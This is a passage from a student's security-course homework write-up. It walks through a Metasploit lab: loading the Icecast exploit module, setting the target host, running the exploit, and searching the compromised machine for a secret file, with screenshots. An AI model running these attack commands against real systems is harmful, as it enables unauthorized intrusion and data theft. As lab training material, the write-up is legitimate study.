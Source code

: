 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: msf5 > `use 0`


 ![b4-note](https://github.com/H-JAVID/JAVID_UCB-Submitted-Home-work/blob/main/WEEK17-Homework/17-Hw-IMAGES/b4-note.PNG)
 
 
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`: 
      
     > Answer:  `set RHOSTS 192.168.0.20`


 ![b5](https://github.com/H-JAVID/JAVID_UCB-Submitted-Home-work/blob/main/WEEK17-Homework/17-Hw-IMAGES/b5.PNG)
 
 
 
 
 
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`


 ![b6-1](https://github.com/H-JAVID/JAVID_UCB-Submitted-Home-work/blob/main/WEEK17-Homework/17-Hw-IMAGES/b6-1.PNG)
 
 
 
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secret*.txt`


 ![b6-2](https://github.com/H-JAVID/JAVID_UCB-Submitted-Home-work/blob/main/WEEK17-Homework/17-Hw-IMAGES/b6-2.PNG) 